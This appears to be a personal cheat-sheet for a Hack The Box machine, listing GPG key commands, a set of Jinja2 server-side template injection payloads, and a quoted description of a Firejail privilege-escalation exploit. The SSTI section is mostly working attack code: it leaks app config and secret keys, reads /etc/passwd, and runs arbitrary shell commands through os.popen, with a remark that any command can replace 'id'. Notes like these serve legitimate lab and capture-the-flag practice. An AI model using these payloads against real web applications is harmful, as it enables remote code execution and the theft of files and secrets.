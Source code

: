 
[https://app.hackthebox.com/machines/548](https://app.hackthebox.com/machines/548 "https://app.hackthebox.com/machines/548")

```
# import keys
gpg --import private.key
gpg --decrypt fragment.asc

# generate your own key pair
gpg --full-generate-key

# list private keys
gpg --list-secret-keys
gpg --list-secret-keys --keyid-format=long

# list public keys
gpg --list-keys

# export your public key into a file. you can also use the hex string instead of email
gpg --armor --export youremail@example.com > testificate.pub.asc

# delete a key. first one is for private, second one for public
# use the 40-char hex string from `gpg --list-keys`
# you have to delete the private one first
gpg --delete-secret-key ABCDEF1234567890
gpg --delete-key ABCDEF1234567890
```

audrystralian favvo:
```sh
{{ lipsum.__globals__["os"].popen("id").read() }}
```

other:
```sh
# might leak the secret key
# if you see ('DEBUG', False), then try visiting /console
{{ config.items() }}

# arbitrary file read
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}

# various RCE payloads
{{ lipsum.__globals__.os.popen("id").read() }}
{{ lipsum["__globals__"]["os"]["popen"]("id")["read"]() }}

{{ self.__init__.__globals__.__builtins__.__import__("os").popen("id").read() }}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("id").read() }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("id").read() }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen("id").read() }}
{{ cycler.__init__.__globals__.os.popen("id").read() }}
{{ joiner.__init__.__globals__.os.popen("id").read() }}
{{ namespace.__init__.__globals__.os.popen("id").read() }}
{{ request.application.__globals__.__builtins__.__import__("os").popen("id").read() }}

# see payloadAllTheThings for filter bypasses
```
oh for context, in the above SSTI payloads, `id` can be substituted for any arbitrary shell command. im pretty sure spaces and special characters work too, unless the application does any filtering

mythical:
```sh
# Exploit: The exploit tricks the Firejail setuid-root program to join a fake
# Firejail instance. By using tmpfs mounts and symlinks in the unprivileged
# user namespace of the fake Firejail instance the result will be a shell that
# lives in an attacker controller mount namespace while the user namespace is
# still the initial user namespace and the nonewprivs setting is unset,
# allowing to escalate privileges via su or sudo.
```

https://www.openwall.com/lists/oss-security/2022/06/08/10

